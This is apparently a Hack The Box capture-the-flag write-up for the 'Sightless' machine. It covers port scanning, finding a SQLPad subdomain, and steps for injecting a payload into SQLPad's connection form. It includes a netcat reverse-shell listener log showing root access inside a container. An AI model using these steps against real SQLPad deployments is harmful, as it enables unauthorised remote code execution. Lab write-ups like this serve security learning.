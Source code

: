 We found 3 open ports, 21 is FTP, 22 is SSH and 80 is an apache web server.

### Web

The nmap script reveals the `sightless.htb` domain, let's add that to `/etc/hosts` file and navigate to the website.

![webiste](1.png)

Scrolling down we come across the services section, we see that `SQLPad` is going to `sqlpad.sightless.htb` domain, let's add that to `/etc/hosts`.

![sqpad](2.png)

Searching on google for possible exploits we come across this bug bounty [report](https://huntr.com/bounties/46630727-d923-4444-a421-537ecd63e7fb)

## **Foothold**

To get a shell we follow the following steps.

- Navigate to `http://sqlpad.sightless.htb`
- Click on Connections->Add connection
- Choose MySQL as the driver
- Input the following payload into the Database form field

![asfd](15.png)

We setup a listener and click `Test` button.

![shell](3.png)

```terminal
[★]$ nc -lvnp 9001                                                                         
listening on [any] 9001 ...                                                      
connect to [10.10.16.20] from (UNKNOWN) [10.10.11.32] 57094                                    
bash: cannot set terminal process group (1): Inappropriate ioctl for device                    
bash: no job control in this shell                                                             
root@c184118df0a6:/var/lib/sqlpad# script -qc /bin/bash /dev/null                              
script -qc /bin/bash /dev/null                                                   
root@c184118df0a6:/var/lib/sqlpad# export TERM=xterm                                           
export TERM=xterm                                                                              
root@c184118df0a6:/var/lib/sqlpad# ^Z                                                          
zsh: suspended  nc -lvnp 9001

┌──[10.10.16.20]─[sirius💀parrot]-[~/ctf/htb/sighless]
└──╼[★]$ stty raw -echo;fg                   
[1]  + continued  nc -lvnp 9001

root@c184118df0a6:/var/lib/sqlpad# id
uid=0(root) gid=0(root) groups=0(root)
```

We got root but it's clearly a docker container of sqlpad.

